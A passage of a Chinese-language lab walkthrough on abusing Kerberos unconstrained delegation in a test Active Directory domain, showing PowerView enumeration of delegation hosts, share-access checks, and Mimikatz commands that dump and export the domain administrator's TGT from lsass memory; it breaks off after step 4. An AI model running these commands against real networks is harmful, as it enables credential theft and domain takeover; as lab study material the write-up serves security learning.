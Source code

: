 ```plain
Get-NetComputer -Unconstrained -Domain hacke.testlab | select name
```

[![](assets/1705982146-853a1992f2787c9fc2130fdd4196fc38.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222457-b024b42a-b79f-1.png)  
Step 2：在 win7 上访问域控主机，提示拒绝访问

```plain
dir \\dc.hacke.testlab\c$
```

[![](assets/1705982146-d11b708cf87cb9bda97385c19eb01f6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222512-b8e7efdc-b79f-1.png)  
Step 3：此时我们在域控主机 Windows Server 2012 R2 上以 Administrator 身份访问 win7 机器

```plain
dir \\win7-test.hacke.testlab\c$
```

[![](assets/1705982146-1cbd9880b1d73f163957e974eb3a7d23.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222530-c3e8d9b4-b79f-1.png)  
Step 4：此时在 win 7 主机的 lsass.exe 内存中就会有域用户 administrator 的 TGT 票据，之后我们在 window 7 上以管理员的方式运行 Mimikatz，执行以下命令：

```plain
privilege::debug 
sekurlsa::tickets /export
```
